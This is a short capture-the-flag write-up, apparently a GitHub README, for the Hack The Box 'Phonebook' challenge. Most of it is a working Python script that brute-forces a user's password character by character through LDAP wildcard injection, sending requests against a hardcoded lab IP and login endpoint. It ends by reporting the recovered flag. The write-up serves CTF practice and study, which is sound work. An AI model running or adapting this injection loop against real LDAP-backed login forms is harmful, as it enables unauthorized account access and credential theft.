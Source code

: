 # LDAP authentication exploit

CTF: https://app.hackthebox.com/challenges/phonebook

Bruteforcing password using LDAP wildcard injection.

## Exploit

```python
import requests
import string

url = 'http://167.71.139.192:30363/login'
data = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
data = data.replace('*', '') # Since * is a LDAP wildcard, remove it from char list
i = 0
username = 'Reese' # Displayed on page, so this might be the username
pwd = ''

while True:
    req = requests.post(url, data={'username': username, 'password': pwd + data[i] + '*'})

    if (req.status_code == 200 and 'message' not in req.url):
        pwd = pwd + data[i]
        print('Found:', pwd)
        i = 0
    
    i += 1
```

## Result
Found the password *HTB{d1rectory_h4xx0r_is_k00l}* (and also the flag to solve the CTF) for the user Reese.

![ldap_exploit](https://user-images.githubusercontent.com/61932664/167595128-63d92a50-d8c9-402c-bf5b-dd3a9a04ed1d.JPG)
